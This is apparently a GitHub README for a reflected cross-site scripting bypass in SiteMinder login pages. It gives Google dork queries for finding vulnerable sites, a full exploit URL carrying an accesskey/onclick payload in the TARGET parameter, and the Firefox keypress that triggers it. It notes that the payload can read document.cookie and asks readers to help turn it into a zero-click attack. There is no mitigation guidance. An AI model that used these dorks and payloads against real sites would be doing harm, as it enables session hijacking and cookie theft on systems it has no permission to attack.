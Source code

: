 # SiteMinder-XSS-Bypass
SiteMinder-XSS-Bypass Currently Firefox Only


# Google Dork
inurl:"/siteminderagent/forms/login.fcc/type=1"
inurl:"/siteminderagent/forms/login.fcc"

# Steps to Reproduce
Head to:
https://domain.com/siteminderagent/forms/login.fcc?TYPE=33554433&REALMOID=06-0004e7e8-db7f-1c9e-8414-05d40addb054&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=-SM-fz2ESNZEvYjpzEaC%2BTgmXd60Uq15eYWRSO5pNMfLZwSEEr8sDpJyEJmjm1qqHC7m&TARGET="accesskey%3d"x"onclick%3d"alert(document.cookie)"

Then Press ALT + SHIFT + X
(Only Works on Firefox due to the payload.)

Payload Used: "accesskey%3d"x"onclick%3d"alert(origin)"

The payload can be changed to alert anything such as document.domain, document.cookie, undefined, and so forth.
If anyone has any ideas how to change the payload to a 0 Click RXSS that works on both Chrome and Firefox contact me on my twitter:
Twitter:https://x.com/Shad0wH3x
